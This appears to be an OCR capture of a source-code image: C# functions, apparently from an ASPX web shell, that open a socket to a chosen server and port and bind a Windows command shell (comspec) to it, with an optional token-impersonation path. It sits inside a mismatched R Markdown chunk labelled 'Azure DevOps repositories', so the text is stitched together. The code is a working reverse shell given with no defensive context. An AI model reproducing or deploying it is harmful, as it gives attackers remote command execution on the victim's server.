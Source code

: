 ```{r, echo = FALSE, fig.cap="Azure DevOps repositories", out.width="90%"}
 
    protected void CallbackShell(string server, int port)
    {

        string request = "Spawn Shell...\n";
        Byte[] bytesSent = Encoding.ASCII.GetBytes(request);

        IntPtr oursocket = IntPtr.Zero;
        
        sockaddr_in socketinfo;
        oursocket = WSASocket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.IP, IntPtr.Zero, 0, 0);
        socketinfo = new sockaddr_in();
        socketinfo.sin_family = (short) AddressFamily.InterNetwork;
        socketinfo.sin_addr = inet_addr(server);
        socketinfo.sin_port = (short) htons((ushort)port);
        connect(oursocket, ref socketinfo, Marshal.SizeOf(socketinfo));
        send(oursocket, bytesSent, request.Length, 0);
        SpawnProcessAsPriv(oursocket);
        closesocket(oursocket);
    }

    protected void SpawnProcess(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101;
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
    }

    protected void SpawnProcessAsPriv(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101; 
        IntPtr DupeToken = new IntPtr(0);
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        if (DupeToken == IntPtr.Zero)
            retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        else
            retValue = CreateProcessAsUser(DupeToken, Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
        CloseHandle(DupeToken);
    }
    </script>
```